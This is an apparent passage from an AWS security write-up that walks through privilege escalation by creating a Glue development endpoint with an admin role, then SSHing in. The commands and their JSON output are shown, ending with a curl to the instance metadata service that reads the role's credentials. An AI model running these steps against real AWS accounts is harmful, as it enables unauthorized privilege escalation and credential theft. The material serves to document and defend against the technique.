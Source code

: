 
```bash
➜ aws glue create-dev-endpoint --endpoint-name privesctest --role-arn arn:aws:iam::[REDACTED]:role/adminaccess --public-key file:///home/user/.ssh/id_rsa.pub --region us-west-2 --profile privesc
```

```json
{
    "Status": "PROVISIONING",
    "AvailabilityZone": "us-west-2b",
    "RoleArn": "arn:aws:iam::[REDACTED]:role/adminaccess",
    "ZeppelinRemoteSparkInterpreterPort": 0,
    "CreatedTimestamp": 1568051506.291,
    "EndpointName": "privesctest",
    "SecurityGroupIds": [],
    "NumberOfNodes": 5
}
```

In order to SSH into the endpoint, the attacker needs to first request the endpoints public IP address. This is the reason why the glue:GetDevEndpoint permission is required. Without this permission, there is no way for the attacker to know the public IP to SSH to. The following command is used to obtain the endpoint’s public IP address:

```bash
➜ aws glue get-dev-endpoint --endpoint-name privesctest --region us-west-2 --profile privesc
```

```json
{
    "DevEndpoint": {
        "Status": "READY",
        "AvailabilityZone": "us-west-2b",
        "PublicAddress": "ec2-34-219-22-24.us-west-2.compute.amazonaws.com",
        "RoleArn": "arn:aws:iam::[REDACTED]:role/adminaccess",
        "ZeppelinRemoteSparkInterpreterPort": 9007,
        "CreatedTimestamp": 1568051506.291,
        "PublicKey": "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsZC2WfDMbFonVuwBnYqRKl1MTU+hHWrOb9lnbPfNJlBBYl2L68qx2bRmo68qib4yxopajiHxhZ5prnrIoOONE0pCyDQqgaEyOSuhZLlXdLyKDptdc0ogRNTVyl6im9z1Wum7Bee2jFuWA8AOOvfpBRJzDLity5n0fVVHEIBQE39Ac2FLQccBElEG3Df2DICypX6EHl1q/dL1fKHOYdMVTpiiiM2C8/eK+pKLAwByuHmFPIzmC7KTMRuH7HWrhqYNAOXctQlsT/k7kUgReILKaUw/6J+GMwG58kOtc/oquvGNwrRv3vb7jwAfblBVFI6ZDNpEqihye++oT7EUJbRYb",
        "EndpointName": "privesctest",
        "SecurityGroupIds": [],
        "LastModifiedTimestamp": 1568053728.65,
        "NumberOfNodes": 5
    }
}
```

With the public IP, the attacker can now SSH into the Glue development endpoint and request the AWS credentials associated with the endpoint's role:

```bash
➜ ssh glue@ec2-34-219-22-24.us-west-2.compute.amazonaws.com -i ~/.ssh/id_rsa

ECDSA key fingerprint is SHA256:sWZHQNfzXXK02l2ShsM55i4fwyFv1YeCmaLUK0VmJLA.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'ec2-34-219-22-24.us-west-2.compute.amazonaws.com,34.219.22.24' (ECDSA) to the list of known hosts.

__| __|_ )
_| ( / Amazon Linux AMI
___|\___|___|

[glue@ip-172-32-41-101 ~]$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
```
